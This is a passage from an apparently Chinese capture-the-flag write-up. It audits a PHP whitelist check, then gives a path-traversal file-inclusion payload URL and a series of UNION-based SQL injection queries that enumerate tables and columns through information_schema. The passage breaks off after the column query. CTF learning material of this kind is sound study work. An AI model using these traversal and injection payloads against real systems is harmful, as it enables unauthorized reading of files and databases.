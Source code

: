 
返回 代码审计：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134059667.png)


定义一个白名单，判断：变量没有定义或者变量不是字符串，false

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021011213411518.png)


第二个if语句判断\$page是否存在于\$whitelist数组中，存在则返回true

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134124304.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


第三个if语句判断截取后的\$page是否存在于\$whitelist数组中，截取\$page中'?'前部分，存在则返回true

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134135422.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


第四个if语句判断url解码并截取后的\$page是否存在于\$whitelist中，存在则返回true

Payload：http://220.249.52.134:43797/source.php?file=source.php?
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134147467.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)



发现图片不见
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134157792.png)



../../../../../../ffffllllaaaagggg

 8.Newscenter

>   知识点：sql注入

 感觉是sql注入,   先弄出来前面有几字段数使用order by
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134239994.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)



>   发现4的话页面就没了，说明有3个字段数
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134249638.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)



>   1' union select 1,2,table_name from information_schema.tables
>   \#查表名(1,2是为了凑够字段数)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134320593.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)



>   1'union select 1,2,column_name from information_schema.columns where
>   table_name='secret_table' \#查列名
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134331364.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)

